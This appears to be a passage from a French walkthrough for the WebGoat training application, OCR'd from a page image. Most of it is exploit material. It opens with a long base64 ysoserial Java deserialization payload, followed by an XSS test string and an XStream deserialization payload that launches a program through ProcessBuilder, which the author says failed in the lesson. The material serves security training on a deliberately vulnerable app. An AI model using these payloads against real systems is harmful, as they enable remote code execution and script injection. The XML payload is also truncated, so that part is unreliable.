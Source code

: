 ```
-AAAAMQAyBwAwAQAzeXNvc2VyaWFsL3BheWxvYWRzL3V0aWwvR2FkZ2V0cyRTdHViVHJhbnNsZXRQYXl
sb2FkBwAEAQBAY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL3J1bnRpbWUvQWJ
zdHJhY3RUcmFuc2xldAcABgEAFGphdmEvaW8vU2VyaWFsaXphYmxlAQAQc2VyaWFsVmVyc2lvblVJRAE
AAUoBAA1Db25zdGFudFZhbHVlBa0gk_OR3e8-AQAGPGluaXQ-AQADKClWAQAEQ29kZQoAAwAQDAAMAA0
BAA9MaW5lTnVtYmVyVGFibGUBABJMb2NhbFZhcmlhYmxlVGFibGUBAAR0aGlzAQA1THlzb3NlcmlhbC9
wYXlsb2Fkcy91dGlsL0dhZGdldHMkU3R1YlRyYW5zbGV0UGF5bG9hZDsBAAl0cmFuc2Zvcm0BAHIoTGN
vbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9ET007W0xjb20vc3VuL29yZy9hcGF
jaGUveG1sL2ludGVybmFsL3NlcmlhbGl6ZXIvU2VyaWFsaXphdGlvbkhhbmRsZXI7KVYBAApFeGNlcHR
pb25zBwAZAQA5Y29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL1RyYW5zbGV0RXh
jZXB0aW9uAQAIZG9jdW1lbnQBAC1MY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHR
jL0RPTTsBAAhoYW5kbGVycwEAQltMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9zZXJpYWx
pemVyL1NlcmlhbGl6YXRpb25IYW5kbGVyOwEApihMY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGV
ybmFsL3hzbHRjL0RPTTtMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9kdG0vRFRNQXhpc0l
0ZXJhdG9yO0xjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL3NlcmlhbGl6ZXIvU2VyaWFsaXp
hdGlvbkhhbmRsZXI7KVYBAAhpdGVyYXRvcgEANUxjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmF
sL2R0bS9EVE1BeGlzSXRlcmF0b3I7AQAHaGFuZGxlcgEAQUxjb20vc3VuL29yZy9hcGFjaGUveG1sL2l
udGVybmFsL3NlcmlhbGl6ZXIvU2VyaWFsaXphdGlvbkhhbmRsZXI7AQAKU291cmNlRmlsZQEADEdhZGd
ldHMuamF2YQEADElubmVyQ2xhc3NlcwcAJwEAH3lzb3NlcmlhbC9wYXlsb2Fkcy91dGlsL0dhZGdldHM
BABNTdHViVHJhbnNsZXRQYXlsb2FkAQAIPGNsaW5pdD4BABBqYXZhL2xhbmcvVGhyZWFkBwAqAQAFc2x
lZXABAAQoSilWDAAsAC0KACsALgEAH3lzb3NlcmlhbC9Qd25lcjIzNzU0MjU1MzE4ODA2MDABACFMeXN
vc2VyaWFsL1B3bmVyMjM3NTQyNTUzMTg4MDYwMDsAIQABAAMAAQAFAAEAGgAHAAgAAQAJAAAAAgAKAAQ
AAQAMAA0AAQAOAAAALwABAAEAAAAFKrcAD7EAAAACABEAAAAGAAEAAAAuABIAAAAMAAEAAAAFABMAMQA
AAAEAFQAWAAIAFwAAAAQAAQAYAA4AAAA_AAAAAwAAAAGxAAAAAgARAAAABgABAAAAMwASAAAAIAADAAA
AAQATADEAAAAAAAEAGgAbAAEAAAABABwAHQACAAEAFQAeAAIAFwAAAAQAAQAYAA4AAABJAAAABAAAAAG
xAAAAAgARAAAABgABAAAANwASAAAAKgAEAAAAAQATADEAAAAAAAEAGgAbAAEAAAABAB8AIAACAAAAAQA
hACIAAwAIACkADQABAA4AAAAZAAMAAgAAAA2nAAMBTBEnEIW4AC-xAAAAAAACACMAAAACACQAJQAAAAo
AAQABACYAKAAJdXEAfgAwAAAB1Mr-ur4AAAAxABsHAAIBACN5c29zZXJpYWwvcGF5bG9hZHMvdXRpbC9
HYWRnZXRzJEZvbwcABAEAEGphdmEvbGFuZy9PYmplY3QHAAYBABRqYXZhL2lvL1NlcmlhbGl6YWJsZQE
AEHNlcmlhbFZlcnNpb25VSUQBAAFKAQANQ29uc3RhbnRWYWx1ZQVx5mnuPG1HGAEABjxpbml0PgEAAyg
pVgEABENvZGUKAAMAEAwADAANAQAPTGluZU51bWJlclRhYmxlAQASTG9jYWxWYXJpYWJsZVRhYmxlAQA
EdGhpcwEAJUx5c29zZXJpYWwvcGF5bG9hZHMvdXRpbC9HYWRnZXRzJEZvbzsBAApTb3VyY2VGaWxlAQA
MR2FkZ2V0cy5qYXZhAQAMSW5uZXJDbGFzc2VzBwAZAQAfeXNvc2VyaWFsL3BheWxvYWRzL3V0aWwvR2F
kZ2V0cwEAA0ZvbwAhAAEAAwABAAUAAQAaAAcACAABAAkAAAACAAoAAQABAAwADQABAA4AAAAvAAEAAQA
AAAUqtwAPsQAAAAIAEQAAAAYAAQAAADsAEgAAAAwAAQAAAAUAEwAUAAAAAgAVAAAAAgAWABcAAAAKAAE
AAQAYABoACXB0AARQd25ycHcBAHhxAH4ABXNxAH4AAnEAfgAScQB-ACxxAH4ANHg
```

#### **(A9) Vulnerable Components:**

##### Vulnerable Components

5. 
Copier-coller `Ok<script>XSS</script>` dans chaque case.

12.
![Warning](https://raw.githubusercontent.com/PiAil/pwning-webgoat/master/images/wiki_owasp_webgoat/warning.png)  Cette leçon ne semble pas fonctionner.

Pour la désérialisation, suivre le lien http://www.pwntester.com/blog/2013/12/23/rce-via-xstream-object-deserialization38/ pour comprendre comment cela fonctionne. Le _payload_ suivant devrait fonctionner, mais ce n'est pas le cas.

```xml
<sorted-set>  
     <string>foo</string>  
     <dynamic-proxy>  
         <interface>java.lang.Comparable</interface>  
         <handler class="java.beans.EventHandler">  
             <target class="java.lang.ProcessBuilder">  
                 <command>  
                     <string>/Applications/Calculator.app/Contents/MacOS/Calculator</string>  
                 </command>  
             </target>  
             <action>start</action>  
         </handler>  
     </dynamic-proxy>  
```